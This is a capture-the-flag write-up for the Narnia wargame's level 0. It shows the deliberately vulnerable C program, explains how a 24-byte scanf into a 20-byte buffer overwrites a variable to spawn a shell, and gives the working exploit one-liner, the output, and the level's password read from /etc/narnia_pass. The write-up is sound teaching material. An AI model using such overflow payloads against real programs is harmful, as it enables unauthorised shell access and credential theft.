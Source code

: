 For this level, we need to do a buffer overflow attack to allow an injection shell command to get the password. To facilitate that, let's first look at the source code provided:
```
/*
   ...
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);
    
    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the source, we observe:

    - A buffer named buf of length 20 bytes.
    - A variable val initialized with the value 0x41414141 that needs to be transformed into 0xdeadbeef.
    - A vulnerable scanf function reading 24 bytes of input, which allows for a buffer overflow.
    - The program checking if the value of val is 0xdeadbeef. If this condition is met, the program spawns a shell.

So, our main focus is the buffer overflow attack. To do this, we need to overflow the buffer (by inputting more than 20 bytes) in `buf` and below the scanf buffer of 24 to change the values in `val`; 

To summarise, our objective is to overflow `buf` such that `val` is overwritten with the desired value `0xdeadbeef`.

Execution:
```
narnia0@gibson:/narnia$ echo -e "$(printf 'A%.0s' {1..20})\xef\xbe\xad\xde cat /etc/narnia_pass/narnia1" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Here, "\xef\xbe\xad\xde" represents 0xdeadbeef in little-endian byte ordering. We prepend this with 20 'A' characters to fill the buffer and overflow into the `val` variable. However, the above code does not open up a terminal.

To solve this issue of terminal not opening up, we can try using shell commands `cat` to make the buffer "hang":
```
narnia0@gibson:/narnia$ (echo -e "$(printf 'A%.0s' {1..20})\xef\xbe\xad\xde"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```
This finally gives us the password.
